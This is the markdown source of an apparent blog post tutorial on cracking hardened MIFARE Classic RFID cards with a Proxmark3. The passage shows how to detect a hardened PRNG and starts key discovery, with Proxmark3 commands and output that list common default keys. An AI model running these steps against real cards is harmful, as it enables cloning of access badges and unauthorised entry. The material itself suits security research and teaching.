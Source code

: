 ```yaml
---
layout: post
title: Breaking Hardened MIFARE with Proxmark3
featured: true
date: '2018-08-08 20:19:09'
tags:
- proxmark3
---
```


The traditional attacks on MIFARE cards rely on weak random number generation. The two most common attacks using the Proxmark3 are the darkside attack `hf mf mifare` and the nested attack `hf mf nested`. Neither of these attacks work on modern MIFARE cards with hardened pseudorandom number generation (PRNG).

How do you know which PRNG (weak or hardened) the card is using? Boot up your Proxmark3, put the card on it, and run `hf search`:

```
    proxmark3> hf search
    UID : 20 2e 19 a4           
    ATQA : 00 04          
     SAK : 08 [2]          
    TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1          
    proprietary non iso14443-4 card found, RATS not supported          
    No chinese magic backdoor command detected          
    Prng detection: HARDENED (hardnested)          

    Valid ISO14443A Tag Found - Quiting Search
```

Notice the line that says `Prng detection: HARDENED (hardnested)`. This is confirmation that we are dealing with a **hardened** MIFARE card and the two common attacks mentioned previously will not work.

## Finding a Key

The first step in cracking a hardened MIFARE card is to discover a valid key. This is usually very easy as most cards will have sectors using the default key of `FFFFFFFFFFFF`. To check a few common keys, try the `hf mf chk *1 ? t` command:

```
    proxmark3> hf mf chk *1 ? t
    No key specified, trying default keys          
    chk default key[0] ffffffffffff          
    chk default key[1] 000000000000          
    chk default key[2] a0a1a2a3a4a5          
    chk default key[3] b0b1b2b3b4b5          
    chk default key[4] aabbccddeeff          
    chk default key[5] 1a2b3c4d5e6f          
    chk default key[6] 123456789abc          
    chk default key[7] 010203040506          
    chk default key[8] 123456abcdef          
    chk default key[9] abcdef123456          
    chk default key[10] 4d3a99c351dd          
    chk default key[11] 1a982c7e459a          
    chk default key[12] d3f7d3f7d3f7          
    chk default key[13] 714c5c886e97          
    chk default key[14] 587ee5f9350f          
    chk default key[15] a0478cc39091          
    chk default key[16] 533cb6c723f6          
    chk default key[17] 8fd0a4f256e9          

    To cancel this operation press the button on the proxmark...          
    --o          
```